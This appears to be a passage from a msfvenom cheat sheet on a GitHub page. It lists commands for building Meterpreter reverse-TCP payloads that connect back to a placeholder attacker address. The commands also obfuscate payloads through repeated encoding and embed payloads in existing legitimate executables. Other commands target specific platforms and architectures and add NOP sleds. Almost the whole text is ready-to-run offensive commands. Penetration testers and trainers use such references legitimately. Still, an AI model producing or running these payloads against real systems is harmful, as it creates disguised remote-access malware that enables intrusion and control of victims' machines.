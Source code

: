4. **Multiple Encoding Iterations:** You can encode the payload multiple times to further obfuscate it.
	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -e x86/shikata_ga_nai -i 10 -f exe -o shell_multi_encoded.exe
	```
5. **Custom Bad Characters:** Exclude certain characters that could break the payload (e.g., null bytes).
	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -b '\x00\xff' -f exe -o shell_no_badchars.exe
	```

## Injections into Existing Binaries

1. **Injecting a Payload into an Executable:** This allows you to embed a malicious payload into a legitimate file.
	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -x <existing_file.exe> -k -f exe -o injected_shell.exe
	```

## Customizing Payloads
Msfvenom allows for various customizations such as setting specific platform and architecture types.

1. **Targeting Specific Platforms:**
	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> --platform windows -f exe -o shell.exe
	```
2. **Specifying the Target Architecture:**
	```bash
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -a x86 -f elf -o shell_x86.elf
	```
3. **Multi-Platform Payloads:**
	```bash
	msfvenom -p multi/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f python -o multi_platform_payload.py
	```

## Creating NOP Sleds
NOP sleds are useful in certain buffer overflow attacks.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -n 16 -f exe -o shell_with_nops.exe
```

# Payload Examples
